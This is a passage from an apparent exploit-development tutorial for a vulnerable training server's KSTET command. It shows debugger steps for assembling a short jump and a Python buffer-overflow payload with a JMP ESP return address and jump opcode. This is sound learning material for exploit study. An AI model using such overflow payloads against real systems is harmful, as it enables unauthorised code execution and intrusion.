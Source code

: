 		* Assemble the instruction.

			<img src="Images/I23.png" width=600> 

	5. Once you click *step* we should arrive at the start of the buffer, now right click the newly assembled instruction and select *Binary Copy*

		<img src="Images/I24.png" width=600> 

2. Now that we have the Assembly instruction for the Short Jump, place it into the python program as shown in [exploit4.py](./SourceCode/exploit4.py).
	```python
	PAYLOAD = (
		b'KSTET ' +
		b'A' * 66 +
		# 625014E6    FFE4                        JMP ESP
		struct.pack('<L', 0x625014E6) +
		# JMP SHORT 0xb8
		b'\xeb\xb8' +
		b'C' * (26 - 2)
	)